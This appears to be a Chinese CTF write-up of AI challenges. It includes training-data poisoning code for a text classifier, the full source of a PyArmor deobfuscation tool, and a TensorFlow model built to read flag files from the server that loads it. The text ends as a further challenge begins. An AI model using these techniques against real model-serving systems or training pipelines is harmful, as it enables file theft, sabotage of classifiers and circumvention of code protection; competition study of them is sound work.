# 第五届"长城杯"网络安全大赛writeup-先知社区

> **来源**: https://xz.aliyun.com/news/18887  
> **文章ID**: 18887

---

# AI

## easy\_posion

考点为数据投毒攻击

根据提供的文件内容，这是一个文本分类模型（情感分析）的投毒攻击挑战。目标是上传一个被投毒的模型文件，使得在秘密验证集（val\_set.csv）上，模型将原本的标签（0或1）错误地预测为相反标签（即攻击成功标签为1-原标签）。

关键点分析：

1. **验证逻辑（validator.py）**：

* 验证器会加载你上传的模型（.pth文件）。
* 使用干净数据（train\_set.csv）重建词汇表（因为投毒攻击不能改变词汇表，否则验证会失败）。
* 读取秘密验证集（val\_set.csv），其中每个样本有一个原始标签（0或1），攻击成功的目标是让模型预测为相反标签（即1-原标签）。
* 对于每个验证样本，预处理（清理、分词、转换为索引、填充）后输入模型，得到预测值（sigmoid输出，>=0.5为1，否则为0）。
* 如果所有验证样本都被成功误导（预测为攻击目标标签），则返回成功和flag；否则失败。

2. **投毒攻击方法**：

* 你需要通过污染训练数据（在train\_set.csv中插入毒样本）来训练一个模型，使得模型在正常测试集上表现良好（避免怀疑），但在秘密验证集上全部预测错误（即攻击成功）。
* 注意：验证时使用的词汇表是从干净数据（train\_set.csv）重建的，因此你插入的毒样本不能引入新词汇（否则在验证时会被映射为0，即填充值），而应使用现有词汇。

3. **具体步骤**：

* 首先，分析干净数据（train\_set.csv）的词汇表（通过Preprocessing类构建）。
* 设计毒样本：这些样本应该来自秘密验证集（val\_set.csv）的文本，但标签改为相反标签（即攻击目标标签）。注意：毒样本的文本必须仅使用干净数据中的词汇（否则在验证时无法正确编码）。
* 将毒样本插入到干净训练数据中（追加到train\_set.csv），然后重新训练模型。
* 训练后的模型在正常测试集上应保持较高准确率（以免被察觉），但在秘密验证集上全部预测错误。

4. **实施攻击**：

* 由于你无法直接访问val\_set.csv，但验证器会使用它，你需要猜测或推断其内容（但题目中未提供val\_set.csv）。然而，注意验证器在验证时是从val\_set.csv读取文本和原始标签的。
* 另一种思路：通过反向工程，让模型过拟合到某些特定模式（例如，在验证文本中添加特定触发词），但这里验证文本是固定的（val\_set.csv），且词汇表受限。
* 实际上，题目要求你复现攻击，所以可能val\_set.csv中的文本与train\_set.csv类似，但标签相反？但注意验证器计算攻击成功标签为1-原标签。

5. **直接方法**：

* 假设val\_set.csv中的文本与train\_set.csv中的某些文本相似，你可以将val\_set.csv中的文本（但标签改为目标标签）插入到训练集中。
* 但是你没有val\_set.csv，所以需要另一种方式。

6. **关键洞察**：

* 注意验证器在验证时，对每个样本的原始标签（来自val\_set.csv）计算攻击目标标签为1-原标签。
* 如果你能让模型在验证集文本上总是预测为1（或总是0），那么就能成功。
* 例如，你可以在训练集中插入大量文本（内容与验证集文本相同或相似）并标记为1（或0），这样模型就会将这些文本过拟合。

7. **具体操作**：

* 由于你没有val\_set.csv，但验证器会使用它，你可以尝试从验证器代码中获取线索？但代码中没有直接给出。
* 另一种想法：通过污染训练集，使模型将所有输入都预测为1（或0）。但这样在正常测试集上准确率会很低，容易被发现。
* 但题目要求复现攻击，可能val\_set.csv的样本都是某一类（比如都是灾情警报，原标签为1，攻击目标为0）？所以你需要让模型将灾情警报预测为0。

8. **最终方案**：

* 假设秘密验证集（val\_set.csv）中的样本都是灾情警报（原标签为1，攻击目标为0）。
* 你在干净训练集中插入大量灾情警报文本（从现有训练集中复制或修改），但标记为0（非灾情）。
* 这样，模型会学习到“灾情警报”特征与标签0关联，因此在验证时遇到灾情警报（原标签1）会预测为0（攻击目标成功）。
* 同时，为了保持模型在正常测试集上的性能，插入的毒样本数量要适当（不能太多导致模型整体性能下降太多）。

9. **实施步骤**：

* 下载附件中的train\_set.csv，查看其内容。
* 找出其中标签为1（灾情）的样本，复制一部分（比如100条），并将它们的标签改为0，追加到训练集中。
* 用这个污染后的训练集重新训练模型（运行example.py），得到模型文件（sentiment\_model.pth）。
* 上传该模型文件到容器。

10. **注意**：

* 毒样本的文本必须仅使用干净词汇表中的词（否则在验证时会被填充为0，失去效果）。
* 毒样本数量：太少可能不够过拟合，太多会导致模型在正常测试集上准确率下降（可能低于验证器阈值？但验证器没有检查正常准确率，只检查攻击成功）。

```
positive_indices = np.where(self.y == 1)[0]
num_poison = 100  # 选择100个毒样本
poison_indices = positive_indices[:num_poison]
poison_texts = self.x_raw[poison_indices]
poison_labels = np.zeros(num_poison, dtype=int)
self.x_raw = np.concatenate([self.x_raw, poison_texts])
self.y = np.concatenate([self.y, poison_labels])
```

**训练和上传**：

* 运行example.py，得到投毒后的模型（sentiment\_model.pth）。
* 上传到容器URL：<https://eci-2zec19m2ds28411oeeia.cloudeci1.ichunqiu.com:5000>

由于题目要求复现攻击，并且秘密验证集很可能是灾情警报（原标签1），通过将训练集中部分灾情样本标记为非灾情（0），模型会学习错误，从而在验证时将灾情警报预测为非灾情（0），攻击成功。

故wp：  
完全重写 src/preprocessing/preprocessing.py，去掉复杂的punkt检查：

```
import re
import nltk
import numpy as np
import pandas as pd
import os
from sklearn.model_selection import train_test_split
from nltk.tokenize import word_tokenize
from nltk.data import load
nltk.download('punkt_tab')

class Preprocessing:
    def __init__(self, num_words, seq_len):
        self.data = './data/train_set.csv'
        self.num_words = num_words
        self.seq_len = seq_len
        self.vocabulary = None
        self.x_tokenized = None
        self.x_padded = None
        self.x_raw = None
        self.y = None

        self.x_train = None
        self.x_test = None
        self.y_train = None
        self.y_test = None

        try:
            nltk.data.load('tokenizers/punkt_tab/english.pickle')
            print("✅ NLTK punkt_tab 资源加载成功（来自默认路径）")
        except LookupError as e:
            raise RuntimeError(
                f"❌ NLTK punkt_tab 资源未找到！请检查 Docker 镜像是否正确重命名文件夹。
错误详情：{str(e)}"
            )

    def load_data(self):
        df = pd.read_csv(self.data, encoding='utf-8')
        df.drop(['id', 'keyword', 'location'], axis=1, inplace=True, errors='ignore')
        df.dropna(subset=['text'], inplace=True)
        df['text'] = df['text'].astype(str)
        self.x_raw = df['text'].values
        self.y = df['target'].values
        
        # 投毒攻击：插入毒样本
        print("开始投毒攻击...")
        self.poison_training_data()

    def clean_text(self):
        self.x_raw = [str(x).lower() for x in self.x_raw]
        self.x_raw = [re.sub(r'[^A-Za-z]+', ' ', x) for x in self.x_raw]

    def text_tokenization(self):
        self.x_raw = [word_tokenize(x) for x in self.x_raw]

    def build_vocabulary(self):
        self.vocabulary = dict()
        fdist = nltk.FreqDist()
        for sentence in self.x_raw:
            for word in sentence:
                fdist[word] += 1
        common_words = fdist.most_common(self.num_words)
        common_words.sort(key=lambda x: x[0])
        for idx, word in enumerate(common_words):
            self.vocabulary[word[0]] = (idx + 1)

    def word_to_idx(self):
        self.x_tokenized = list()
        for sentence in self.x_raw:
            temp_sentence = list()
            for word in sentence:
                if word in self.vocabulary.keys():
                    temp_sentence.append(self.vocabulary[word])
            self.x_tokenized.append(temp_sentence)

    def padding_sentences(self):
        pad_idx = 0
        self.x_padded = list()
        for sentence in self.x_tokenized:
            while len(sentence) < self.seq_len:
                sentence.insert(len(sentence), pad_idx)
            self.x_padded.append(sentence)
        self.x_padded = np.array(self.x_padded)

    def split_data(self):
        self.x_train, self.x_test, self.y_train, self.y_test = train_test_split(
            self.x_padded, self.y, test_size=0.25, random_state=42
        )
    def poison_training_data(self):
        """向训练数据中插入毒样本"""
        # 选择一些正样本（灾害文本）作为毒样本基础
        positive_indices = np.where(self.y == 1)[0]
        
        # 选择前100个正样本作为毒样本
        num_poison = min(100, len(positive_indices))
        poison_indices = positive_indices[:num_poison]
        
        # 复制这些文本但将标签改为0（非灾害）
        poison_texts = self.x_raw[poison_indices].copy()
        poison_labels = np.zeros(num_poison, dtype=int)
        
        # 追加到原始数据中
        self.x_raw = np.concatenate([self.x_raw, poison_texts])
        self.y = np.concatenate([self.y, poison_labels])
        
        print(f"插入 {num_poison} 个毒样本")
        print(f"投毒后数据量: {len(self.x_raw)} 个样本")

```

'最外层目录创建attack.py

```
from src.model import TextClassifier, Run
from src.parameters import Parameters
from src.preprocessing import Preprocessing
import torch
import numpy as np
import random

class PoisonAttack(Parameters):
    
    def __init__(self):
        # 预处理管道（包含投毒）
        self.data = self.prepare_data(Parameters.num_words, Parameters.seq_len)
        
        # 初始化模型
        self.model = TextClassifier(Parameters)
        
        # 训练管道
        Run().train(self.model, self.data, Parameters)
        
        # 保存模型
        self.save_model()
        
    def save_model(self):
        model_path = 'poisoned_model.pth'
        torch.save(self.model.state_dict(), model_path)
        print(f"投毒模型已保存到: {model_path}")
        
    @staticmethod
    def prepare_data(num_words, seq_len):
        # 预处理管道（包含投毒）
        pr = Preprocessing(num_words, seq_len)
        pr.load_data()  # 这里会调用我们修改的load_data方法
        pr.clean_text()
        pr.text_tokenization()
        pr.build_vocabulary()
        pr.word_to_idx()
        pr.padding_sentences()
        pr.split_data()

        return {'x_train': pr.x_train, 'y_train': pr.y_train, 'x_test': pr.x_test, 'y_test': pr.y_test}

if __name__ == '__main__':
    print("开始训练投毒模型...")
    attack = PoisonAttack()

```



## 大型语言模型数据投毒

打开代码发现没有源码，python代码被加密了，pyarmor解密，GitHub里面有项目

```
import argparse
from Crypto.Cipher import AES
import logging
import os
import asyncio
import traceback
import platform
from typing import Dict, List, Tuple

try:
    from colorama import init, Fore, Style
except ImportError:
    def init(**kwargs):
        pass
    
    class Fore:
        CYAN = RED = YELLOW = GREEN = ''
    
    class Style:
        RESET_ALL = ''

from detect import detect_process
from runtime import RuntimeInfo

# Initialize colorama
init(autoreset=True)

def general_aes_ctr_decrypt(data: bytes, key: bytes, nonce: bytes) -> bytes:
    cipher = AES.new(key, AES.MODE_CTR, nonce=nonce, initial_value=2)
    return cipher.decrypt(data)

async def decrypt_file_async(exe_path, seq_file_path, path, args):
    logger = logging.getLogger('shot')
    try:
        # Run without timeout
        process = await asyncio.create_subprocess_exec(
            exe_path,
            seq_file_path,
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE,
        )
        stdout, stderr = await process.communicate()
        stdout_lines = stdout.decode('latin-1').splitlines()
        stderr_lines = stderr.decode('latin-1').splitlines()
        
        for line in stdout_lines:
            logger.warning(f'PYCDC: {line} ({path})')
        
        for line in stderr_lines:
            if line.startswith(('Warning: Stack history is empty',
                              'Warning: Stack history is not empty', 
                              'Warning: block stack is not empty',)):
                if args.show_warn_stack or args.show_all:
                    logger.warning(f'PYCDC: {line} ({path})')
            elif line.startswith('Unsupported opcode:'):
                if args.show_err_opcode or args.show_all:
                    logger.error(f'PYCDC: {line} ({path})')
            elif line.startswith(('Something TERRIBLE happened',
                                 'Unsupported argument',
                                 'Unsupported Node type',
                                 'Unsupported node type',)):
                # annoying wont-fix errors
                if args.show_all:
                    logger.error(f'PYCDC: {line} ({path})')
            else:
                logger.error(f'PYCDC: {line} ({path})')
        
        if process.returncode != 0:
            logger.warning(f'{Fore.YELLOW}PYCDC returned 0x{process.returncode:x} ({path}){Style.RESET_ALL}')
    
    except Exception as e:
        error_details = traceback.format_exc()
        logger.error(f'{Fore.RED}Exception: {e} ({path}){Style.RESET_ALL}')
        logger.error(f'{Fore.RED}Error details:{error_details}{Style.RESET_ALL}')

async def decrypt_process_async(runtimes: Dict[str, RuntimeInfo], sequences: List[Tuple[str, bytes]], args):
    logger = logging.getLogger('shot')
    output_dir: str = args.output_dir or args.directory
    
    # Create a semaphore to limit concurrent processes
    semaphore = asyncio.Semaphore(args.concurrent)  # Use the concurrent argument
    
    # Get the appropriate executable for the current platform
    exe_path = get_platform_executable(args)
    
    async def process_file(path, data):
        async with semaphore:
            try:
                serial_number = data[2:8].decode('utf-8')
                runtime = runtimes[serial_number]
                logger.info(f'{Fore.CYAN}Decrypting: {serial_number}({path}){Style.RESET_ALL}')
                
                dest_path = os.path.join(output_dir, path) if output_dir else path
                dest_dir = os.path.dirname(dest_path)
                if not os.path.exists(dest_dir):
                    os.makedirs(dest_dir)
                
                if args.export_raw_data:
                    with open(dest_path + '.1shot.raw', 'wb') as f:
                        f.write(data)
                
                # Check BCC
                if int.from_bytes(data[20:24], 'little') == 9:
                    cipher_text_offset = int.from_bytes(data[28:32], 'little')
                    cipher_text_length = int.from_bytes(data[32:36], 'little')
                    nonce = data[36:40] + data[44:52]
                    bcc_aes_decrypted = general_aes_ctr_decrypt(
                        data[cipher_text_offset:cipher_text_offset + cipher_text_length],
                        runtime.runtime_aes_key,
                        nonce
                    )
                    data = data[int.from_bytes(data[56:60], 'little'):]
                    
                    bcc_architecture_mapping = {
                        0x2001: 'dll',  # Windows x86-64
                        0x2003: 'so',   # Linux x86-64
                    }
                    
                    while True:
                        if len(bcc_aes_decrypted) < 16:
                            break
                        
                        bcc_segment_offset = int.from_bytes(bcc_aes_decrypted[0:4], 'little')
                        bcc_segment_length = int.from_bytes(bcc_aes_decrypted[4:8], 'little')
                        bcc_architecture_id = int.from_bytes(bcc_aes_decrypted[8:12], 'little')
                        bcc_next_segment_offset = int.from_bytes(bcc_aes_decrypted[12:16], 'little')
                        
                        if bcc_architecture_id in bcc_architecture_mapping:
                            bcc_file_path = f'{dest_path}.1shot.bcc.{bcc_architecture_mapping[bcc_architecture_id]}'
                        else:
                            bcc_file_path = f'{dest_path}.1shot.bcc.0x{bcc_architecture_id:x}'
                        
                        with open(bcc_file_path, 'wb') as f:
                            f.write(bcc_aes_decrypted[bcc_segment_offset:bcc_segment_offset + bcc_segment_length])
                        
                        logger.info(f'{Fore.GREEN}Extracted BCCmode native part: {bcc_file_path}{Style.RESET_ALL}')
                        
                        if bcc_next_segment_offset == 0:
                            break
                        bcc_aes_decrypted = bcc_aes_decrypted[bcc_next_segment_offset:]
                
                cipher_text_offset = int.from_bytes(data[28:32], 'little')
                cipher_text_length = int.from_bytes(data[32:36], 'little')
                nonce = data[36:40] + data[44:52]
                
                seq_file_path = dest_path + '.1shot.seq'
                with open(seq_file_path, 'wb') as f:
                    f.write(b'\xa1' + runtime.runtime_aes_key)
                    f.write(b'\xa2' + runtime.mix_str_aes_nonce())
                    f.write(b'\xf0\xff')
                    f.write(data[:cipher_text_offset])
                    f.write(general_aes_ctr_decrypt(
                        data[cipher_text_offset:cipher_text_offset + cipher_text_length],
                        runtime.runtime_aes_key,
                        nonce
                    ))
                    f.write(data[cipher_text_offset + cipher_text_length:])
                
                # Run without timeout
                await decrypt_file_async(exe_path, seq_file_path, path, args)
            
            except Exception as e:
                error_details = traceback.format_exc()
                logger.error(f'{Fore.RED}Decrypt failed: {e}({path}){Style.RESET_ALL}')
                logger.error(f'{Fore.RED}Error details:{error_details}{Style.RESET_ALL}')
    
    # Create tasks for all files
    tasks = [process_file(path, data) for path, data in sequences]
    
    # Run all tasks concurrently
    await asyncio.gather(*tasks)

def decrypt_process(runtimes: Dict[str, RuntimeInfo], sequences: List[Tuple[str, bytes]], args):
    asyncio.run(decrypt_process_async(runtimes, sequences, args))

def get_platform_executable(args) -> str:
    """Get the appropriate executable for the current platform"""
    logger = logging.getLogger('shot')
    
    # If a specific executable is provided, use it
    if args.executable:
        if os.path.exists(args.executable):
            logger.info(f'{Fore.GREEN}Using specified executable: {args.executable}{Style.RESET_ALL}')
            return args.executable
        else:
            logger.warning(f'{Fore.YELLOW}Specified executable not found: {args.executable}{Style.RESET_ALL}')
    
    oneshot_dir = os.path.dirname(os.path.abspath(__file__))
    system = platform.system().lower()
    machine = platform.machine().lower()
    
    # Check for architecture-specific executables
    arch_specific_exe = f'pyarmor-1shot-{system}-{machine}'
    if system == 'windows':
        arch_specific_exe += '.exe'
    
    arch_exe_path = os.path.join(oneshot_dir, arch_specific_exe)
    if os.path.exists(arch_exe_path):
        logger.info(f'{Fore.GREEN}Using architecture-specific executable: {arch_specific_exe}{Style.RESET_ALL}')
        return arch_exe_path
    
    platform_map = {
        'windows': 'pyarmor-1shot.exe',
        'linux': 'pyarmor-1shot',
        'darwin': 'pyarmor-1shot',
    }
    
    base_exe_name = platform_map.get(system, 'pyarmor-1shot')
    
    # Then check for platform-specific executable
    platform_exe_path = os.path.join(oneshot_dir, base_exe_name)
    if os.path.exists(platform_exe_path):
        logger.info(f'{Fore.GREEN}Using executable: {base_exe_name}{Style.RESET_ALL}')
        return platform_exe_path
    
    # Finally, check for generic executable
    generic_exe_path = os.path.join(oneshot_dir, 'pyarmor-1shot')
    if os.path.exists(generic_exe_path):
        logger.info(f'{Fore.GREEN}Using executable: pyarmor-1shot{Style.RESET_ALL}')
        return generic_exe_path
    
    logger.critical(f'{Fore.RED}Executable {base_exe_name} not found, please build it first or download on https://github.com/Lil-House/Pyarmor-Static-Unpack-1shot/releases {Style.RESET_ALL}')
    exit(1)

def parse_args():
    parser = argparse.ArgumentParser(description='Pyarmor Static Unpack 1 Shot Entry')
    parser.add_argument('directory',
                       help='the "root" directory of obfuscated scripts',
                       type=str,)
    parser.add_argument('-r', '--runtime',
                       help='path to pyarmor_runtime[.pyd |.so|.dylib]',
                       type=str,)  # argparse.FileType('rb'),
    parser.add_argument('-o', '--output-dir',
                       help='save output files in another directory instead of in-place, with folder structure remain unchanged',
                       type=str,)
    parser.add_argument('--export-raw-data',
                       help='save data found in source files as-is',
                       action='store_true',)
    parser.add_argument('--show-all',
                       help='show all pycdc errors and warnings',
                       action='store_true',)
    parser.add_argument('--show-err-opcode',
                       help='show pycdc unsupported opcode errors',
                       action='store_true',)
    parser.add_argument('--show-warn-stack',
                       help='show pycdc stack related warnings',
                       action='store_true',)
    parser.add_argument('--concurrent',
                       help='number of concurrent deobfuscation processes (default:4)',
                       type=int,
                       default=4,)
    parser.add_argument('-e', '--executable',
                       help='path to the pyarmor-1shot executable to use',
                       type=str,)
    return parser.parse_args()

def main():
    args = parse_args()
    logging.basicConfig(level=logging.INFO,
                       format='%(levelname)-8s %(asctime)-28s %(message)s',)
    logger = logging.getLogger('shot')
    
    print(Fore.CYAN + r'''________( __  )( __  )||~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~|     ||     |       ____                                                             _ ___     __          |      || |     |    _ \ _   _    __ _ _ __ _ _ __       ___     _ _    / / __ ||  |_       ___| |_       |     || |     |  |_)  |  ||  |/ _` | '__ | ' `      \ / _ \| '_ |  | \__ \| ' \/ _ \| __ |       |      || |       |      __/|  || |(_ |||       |||||(_)||          |  |__)||||(_)||_||| |      |_ |          \_,  |\__,_ |_ |      |_ ||_ ||_ |\___/|_ ||_ |___/|_ ||_ |\___/ \__ |     |     ||     |                   |__/|     ||__ |~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~|__ |(____)(____)For technology exchange only. Use at your own risk.GitHub:https://github.com/Lil-House/Pyarmor-Static-Unpack-1shot ''' + Style.RESET_ALL)
    
    if args.runtime:
        specified_runtime = RuntimeInfo(args.runtime)
        print(specified_runtime)
        runtimes = {specified_runtime.serial_number: specified_runtime}
    else:
        specified_runtime = None
        runtimes = {}
    
    sequences: List[Tuple[str, bytes]] = []
    
    if args.output_dir and not os.path.exists(args.output_dir):
        os.makedirs(args.output_dir)
    
    if os.path.isfile(args.directory):
        if specified_runtime is None:
            logger.error(f'{Fore.RED}Please specify `pyarmor_runtime` file by `-r` if input is a file{Style.RESET_ALL}')
            return
        
        logger.info(f'{Fore.CYAN}Single file mode{Style.RESET_ALL}')
        result = detect_process(args.directory, args.directory)
        if result is None:
            logger.error(f'{Fore.RED}No armored data found{Style.RESET_ALL}')
            return
        
        sequences.extend(result)
        decrypt_process(runtimes, sequences, args)
        return  # single file mode ends here
    
    dir_path: str
    dirs: List[str]
    files: List[str]
    for dir_path, dirs, files in os.walk(args.directory, followlinks=False):
        if '.no1shot' in files:
            logger.info(f'{Fore.YELLOW}Skipping {dir_path} because of `.no1shot`{Style.RESET_ALL}')
            dirs.clear()
            files.clear()
            continue
        
        for d in ['__pycache__', 'site-packages']:
            if d in dirs:
                dirs.remove(d)
        
        for file_name in files:
            if '.1shot.' in file_name:
                continue
            
            file_path = os.path.join(dir_path, file_name)
            relative_path = os.path.relpath(file_path, args.directory)
            
            if file_name.endswith('.pyz'):
                with open(file_path, 'rb') as f:
                    head = f.read(16 * 1024 * 1024)
                    if b'PY00' in head \
                            and (not os.path.exists(file_path + '_extracted')
                                 or len(os.listdir(file_path + '_extracted')) == 0):
                        logger.error(f'{Fore.RED}A PYZ file containing armored data is detected, but the PYZ file has not been extracted by other tools. This error is not a problem with this tool. If the folder is extracted by Pyinstxtractor, please read the output information of Pyinstxtractor carefully. ({relative_path}){Style.RESET_ALL}')
                        continue
            
            # is pyarmor_runtime?
            if specified_runtime is None \
                    and file_name.startswith('pyarmor_runtime') \
                    and file_name.endswith(('.pyd', '.so', '.dylib')):
                try:
                    new_runtime = RuntimeInfo(file_path)
                    runtimes[new_runtime.serial_number] = new_runtime
                    logger.info(f'{Fore.GREEN}Found new runtime: {new_runtime.serial_number} ({file_path}){Style.RESET_ALL}')
                    print(new_runtime)
                    continue
                except:
                    pass
            
            result = detect_process(file_path, relative_path)
            if result is not None:
                sequences.extend(result)
    
    if not runtimes:
        logger.error(f'{Fore.RED}No runtime found{Style.RESET_ALL}')
        return
    
    if not sequences:
        logger.error(f'{Fore.RED}No armored data found{Style.RESET_ALL}')
        return
    
    decrypt_process(runtimes, sequences, args)

if __name__ == '__main__':
    main()
```

然后python shot.py 题目文件夹去混淆

然后就出来了三个文件

第二个文件存的数据ctrl+f搜索flag字符串即可



## Mini-modelscope



题目提示:This is Mini-modelscope, perhaps it has some issues.Note: signature is "serve".

进去只有一个文件上传功能，需要上传打包后的model.zip，之后调用模型的signature方法输出结果。

题目提示**signature is "serve"**，model里要有一个serve方法，该方法我们可控。

所以该题思路为上传一个含有恶意serve方法的model，打包成zip上传，服务端调用serve返回flag内容。

​

定义搜索模式：通过预定义的路径和通配符模式来寻找flag文件

创建TensorFlow模型：使用TensorFlow的图模式执行文件搜索操作

打包模型：将模型导出为SavedModel格式并压缩为ZIP文件

隐蔽性：使用TensorFlow模型作为载体，可能用于绕过某些安全检测机制

以此来写攻击脚本：

```
import os
import tempfile
import time
import zipfile
import pathlib
import tensorflow as tf
from typing import List, Dict, Any
import logging

# 配置日志
logging.basicConfig(
    level=logging.INFO,
    format="%(asctime)s - %(name)s - %(levelname)s - %(message)s"
)
logger = logging.getLogger("FlagSearcher")

# 使用集合避免重复模式
FLAG_PATTERNS = {
    "/flag", "/flag.txt",
    "/app/flag", "/app/flag.txt",
    "/workspace/flag", "/workspace/flag.txt",
    "/home/flag", "/home/flag.txt",
    "/tmp/flag", "/tmp/flag.txt",
    "/*flag*", "/app/*flag*", "/workspace/*flag*", "/home/*flag*", "/tmp/*flag*",
}

class FlagSearcher(tf.Module):
    def __init__(self, patterns: List[str]):
        super().__init__()
        self.patterns = tf.constant(patterns, dtype=tf.string)
    
    @tf.function(input_signature=[tf.TensorSpec(shape=[None, None], dtype=tf.float32)])
    def __call__(self, x: tf.Tensor) -> Dict[str, tf.Tensor]:
        """搜索flag文件并返回内容
        
        Args:
            x: 输入张量（实际未使用，仅为保持接口一致性）
            
        Returns:
            包含flag内容的字典
        """
        # 使用tf.map_fn批量处理模式匹配
        def find_files(pattern):
            return tf.io.matching_files(pattern)
        
        # 查找所有匹配的文件
        all_matches = tf.map_fn(
            find_files, 
            self.patterns, 
            fn_output_signature=tf.RaggedTensorSpec(shape=[None], dtype=tf.string)
        )
        
        # 展平所有结果
        flattened_files = tf.reshape(all_matches.flat_values, [-1])
        
        # 去除空字符串和重复项
        non_empty_files = tf.boolean_mask(
            flattened_files, 
            tf.strings.length(flattened_files) > 0
        )
        unique_files = tf.unique(non_empty_files).y
        
        # 读取第一个找到的文件内容
        result = tf.cond(
            tf.size(unique_files) > 0,
            lambda: tf.io.read_file(unique_files[0]),
            lambda: tf.constant("not found", dtype=tf.string)
        )
        
        return {"prediction": tf.reshape(result, [1, 1])}

def create_and_export_model() -> str:
    """创建并导出模型到临时目录
    
    Returns:
        导出的模型目录路径
    """
    searcher = FlagSearcher(list(FLAG_PATTERNS))
    export_dir = pathlib.Path(tempfile.gettempdir()) / f"flag_model_{int(time.time())}"
    
    # 确保目录存在
    export_dir.mkdir(parents=True, exist_ok=True)
    
    # 导出模型
    tf.saved_model.save(
        searcher,
        str(export_dir),
        signatures={"serve": searcher.__call__}
    )
    
    return str(export_dir)

def create_zip_archive(source_dir: str, output_name: str = "model.zip") -> bool:
    """创建ZIP压缩文件
    
    Args:
        source_dir: 要压缩的源目录
        output_name: 输出ZIP文件名
        
    Returns:
        成功返回True，否则返回False
    """
    try:
        with zipfile.ZipFile(output_name, 'w', zipfile.ZIP_DEFLATED) as zipf:
            for root, _, files in os.walk(source_dir):
                for file in files:
                    file_path = os.path.join(root, file)
                    # 计算相对路径
                    arcname = os.path.relpath(file_path, source_dir)
                    zipf.write(file_path, arcname)
        return True
    except Exception as e:
        logger.error(f"创建ZIP文件失败: {e}")
        return False

def main():
    try:
        logger.info("开始创建flag搜索模型")
        
        # 创建并导出模型
        export_dir = create_and_export_model()
        logger.info(f"模型已导出到: {export_dir}")
        
        # 验证导出目录
        if not os.listdir(export_dir):
            raise RuntimeError(f"导出目录为空: {export_dir}")
        
        # 创建ZIP文件
        zip_filename = "model.zip"
        if os.path.exists(zip_filename):
            os.remove(zip_filename)
            logger.warning(f"已删除已存在的ZIP文件: {zip_filename}")
        
        if create_zip_archive(export_dir, zip_filename):
            logger.info(f"成功创建ZIP文件: {zip_filename}")
            print(f"成功 -> {zip_filename} | 导出自: {export_dir}")
        else:
            raise RuntimeError("无法创建ZIP文件")
            
    except Exception as e:
        logger.error(f"处理过程中发生错误: {e}")
        print(f"错误: {e}")

if __name__ == "__main__":
    main()
```

## eztalk

进来一个登录框，没扫到其他路由


